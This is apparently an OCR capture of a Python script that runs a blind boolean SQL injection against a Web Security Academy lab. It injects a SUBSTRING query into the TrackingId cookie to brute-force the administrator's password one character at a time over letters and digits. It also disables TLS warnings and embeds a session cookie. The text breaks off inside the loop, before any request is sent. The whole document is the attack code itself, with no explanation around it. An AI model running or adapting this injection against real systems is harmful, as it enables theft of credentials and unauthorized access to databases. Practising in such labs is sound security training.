       urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

      cookies = {
          'TrackingId': "l0AntyMBnvwpU3eL' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 'i",
          'session': 'JEiebpgsXn8HM4UbG1NvnyExDRGmxQ2U',
      }

      headers = {
          'Host': '0ad80007034af3b4815416d000260088.web-security-academy.net',
          'Sec-Ch-Ua': '"Not.A/Brand";v="99", "Chromium";v="136"',
          'Sec-Ch-Ua-Mobile': '?0',
          'Sec-Ch-Ua-Platform': '"macOS"',
          'Accept-Language': 'en-US,en;q=0.9',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
          'Sec-Fetch-Site': 'same-origin',
          'Sec-Fetch-Mode': 'navigate',
          'Sec-Fetch-User': '?1',
          'Sec-Fetch-Dest': 'document',
          'Referer': 'https://0ad80007034af3b4815416d000260088.web-security-academy.net/filter?category=Pets',
          # 'Accept-Encoding': 'gzip, deflate, br',
          'Priority': 'u=0, i',
          # 'Cookie': "TrackingId=l0AntyMBnvwpU3eL' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 'i; session=JEiebpgsXn8HM4UbG1NvnyExDRGmxQ2U",
      }

      params = {
          'category': 'Pets',
      }

      payload_list = ''

      for i in range(ord('a'), ord('z') + 1):
          payload_list += chr(i)

      for i in range(ord('A'), ord('Z') + 1):
          payload_list += chr(i)

      for i in range(ord('0'), ord('9') + 1):
          payload_list += chr(i)

      ans = ''

      for i in range(1, 20 + 1):
          for j in payload_list:
              cookies['TrackingId'] = f"l0AntyMBnvwpU3eL' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1) = '{j}"
              